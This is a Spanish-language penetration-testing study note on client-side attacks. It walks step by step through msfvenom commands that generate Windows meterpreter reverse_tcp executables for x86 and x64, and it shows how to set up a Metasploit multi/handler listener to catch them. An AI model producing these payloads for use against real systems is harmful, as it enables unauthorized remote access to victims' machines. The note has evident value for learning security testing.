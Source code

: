 Un ataque del lado del cliente es un vector de ataque que involucra la ejecución de un payload (carga útil) malicioso en el objetivo que en consecuencia conecta al atacante cuando es ejecutado.
Estos tipos de ataques utilizan varias técnicas de ingeniería social como la creación de documentos malicioso o ejecutables portables (PEs).
Los client-side attacks toman ventaja de la vulnerabilidad humana.


# Msfvenom
Msfvenom es una utilidad de linea de comandos que puede ser utilizada para codificar MSF payloads para varios sistemas operativos como servidores web.
Msfvenom es una combinación de dos utilidades, msfpayload y msfencode.
Podemos utilizar msfvenom para generar payloads maliciosos de meterpreter que pueden ser transferidos al sistema objetivo. Una vez ejecutado, el payload se va a conectar con nuestro handler dándonos acceso remoto al sistema objetivo.

Podemos listar los payloads disponibles en msfvenom con con comando:
	msfvenom --list payloads
![](../../Images/Pasted%20image%2020240206125209.png)
Para los payloads de meterpreter es necesario especificar correctamente el sistema operativo objetivo (windows, linux, etc) y su arquitectura (32 o 64 bits).

Si quisiera generar un payload para una arquitectura de 32bits lo hago de la siguiente manera:
	msfvenom -a
		El -a es para especificar la arquitectura, por ejemplo si fuera de 32bits seria msfvenom -a x86
	msfvenom -a x86 -p
		El -p es para especificar el payload a utilizar.
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp
		Una vez especificado el payload que queremos ejecutar, debemos especificar la informacion de la maquina atacante.
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO
		Una vez que colocamos la informacion de la maquina atacante, debemos especificar el formato del payload, para windows el ejecutable será un .exe esto lo hacemos con un -f (formato).
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe
		Ahora debemos especificar donde queremos colocar ese payload y su nombre. Para ello utilizaremos la redirección ">".
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > /home/directorio/payloadx32.exe
![](../../Images/Pasted%20image%2020240206125552.png)
Si quisiera crear básicamente el mismo payload pero para una arquitectura de 64bits seria muy similar al anterior:
	msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > /home/directorio/payloadx64.exe
![](../../Images/Pasted%20image%2020240206125650.png)

Hay una gran cantidad de formatos disponibles, para listarlos puedo usar el comando:
	msfvenom --list formats
![](../../Images/Pasted%20image%2020240206125750.png)
Si quisiéramos crear un payload para un sistema linux, podriamos hacerlo con el formato elf.
![](../../Images/Pasted%20image%2020240206130106.png)
Es de gran ayuda el tab a la hora de autocompletar un comando ya que podemos ir viendo las distintas opciones necesarias.

Cuando utilizamos este tipo de payloads necesitamos un listener que sea adecuado, por lo general el listener que se suele utilizar es el que tenemos disponibles en msfconsole conocido como multihandler.
Para utilizarlo debemos ejecutar en msfconsole
	use multi/handler
![](../../Images/Pasted%20image%2020240205212541.png)
Una vez que seleccionamos el handler, debemos seleccionar el payload:
![](../../Images/Pasted%20image%2020240205212643.png)
Y sus opciones:
![](../../Images/Pasted%20image%2020240205212710.png)

